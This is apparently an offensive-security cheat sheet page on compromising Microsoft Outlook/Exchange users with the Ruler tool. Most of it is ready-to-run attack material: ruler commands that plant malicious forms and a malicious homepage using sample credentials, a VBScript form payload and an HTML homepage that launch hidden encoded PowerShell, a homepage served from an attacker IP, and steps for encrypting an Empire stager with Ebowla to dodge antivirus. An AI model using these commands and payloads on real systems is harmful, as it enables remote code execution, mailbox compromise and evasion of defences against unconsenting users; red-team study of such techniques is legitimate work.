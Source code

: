 # Outlook




## Ruler

* [https://github.com/sensepost/ruler/releases](https://github.com/sensepost/ruler/releases)



### Rules

* [https://github.com/sensepost/ruler/wiki/Rules](https://github.com/sensepost/ruler/wiki/Rules)
* [https://silentbreaksecurity.com/malicious-outlook-rules/](https://silentbreaksecurity.com/malicious-outlook-rules/)



### Forms

* [https://github.com/sensepost/ruler/wiki/Forms](https://github.com/sensepost/ruler/wiki/Forms)
* [https://sensepost.com/blog/2017/outlook-forms-and-shells/](https://sensepost.com/blog/2017/outlook-forms-and-shells/)

Display forms:

```
$ ./ruler -k --nocache --url https://autodiscover.megacorp.com/autodiscover/autodiscover.xml -d megacorp.com -u 'snovvcrash' -p 'Passw0rd!' -e snovvcrash@megacorp.com --verbose --debug form display
```

Exploit:

```
$ ./ruler -k --nocache --url https://autodiscover.megacorp.com/autodiscover/autodiscover.xml -d megacorp.com -u 'snovvcrash' -p 'Passw0rd!' -e snovvcrash@megacorp.com --verbose --debug form add --suffix test-form --input vbs-payload.txt --send
```

`vbs-payload.txt`:

```
CreateObject("WScript.Shell").Run "powershell -exec bypass -enc <BASE64_CMD>", 0, false
```

Clean up:

```
$ ./ruler -k --nocache --url https://autodiscover.megacorp.com/autodiscover/autodiscover.xml -d megacorp.com -u 'snovvcrash' -p 'Passw0rd!' -e snovvcrash@megacorp.com --verbose --debug form delete --suffix test-form
```

Empire stager encryption:

```
$ grep -e output_type -e payload_type -e clean_output -e userdomain genetic.config
    output_type = GO
    payload_type = DLL_x64
    clean_output = True
        userdomain = 'MEGACORP'
$ python ebowla.py https443.dll genetic.config
$ ./build_x64_go.sh output/go_symmetric_https443.dll.go https443.exe --hidden
```



### Homepage

* [https://github.com/sensepost/ruler/wiki/Homepage](https://github.com/sensepost/ruler/wiki/Homepage)
* [https://sensepost.com/blog/2017/outlook-home-page-another-ruler-vector/](https://sensepost.com/blog/2017/outlook-home-page-another-ruler-vector/)

Exploit:

```
$ ./ruler -k --nocache --url https://autodiscover.megacorp.com/autodiscover/autodiscover.xml -d megacorp.com -u 'snovvcrash' -p 'Passw0rd!' -e snovvcrash@megacorp.com --verbose --debug homepage add --url http://10.10.13.37/homepage.html
```

`homepage.html`:

```xml
<html>
<head>
<meta http-equiv="Content-Language" content="en-us">
<meta http-equiv="Content-Type" content="text/html; charset=windows-1252">
<title>Outlook</title>
<script id=clientEventHandlersVBS language=vbscript>
<!--
 Sub window_onload()
     Set Application = ViewCtl1.OutlookApplication
     Set cmd = Application.CreateObject("Wscript.Shell")
     cmd.Run("powershell -exec bypass -e <BASE64_CMD>")
 End Sub
-->

</script>
</head>

<body>
 <object classid="clsid:0006F063-0000-0000-C000-000000000046" id="ViewCtl1" data="" width="100%" height="100%"></object>
</body>
</html>
```

Clean up:

```
$ ./ruler -k --nocache --url https://autodiscover.megacorp.com/autodiscover/autodiscover.xml -d megacorp.com -u 'snovvcrash' -p 'Passw0rd!' -e snovvcrash@megacorp.com --verbose --debug homepage delete
```

Stager encryption is the same as for Ruler/Forms.
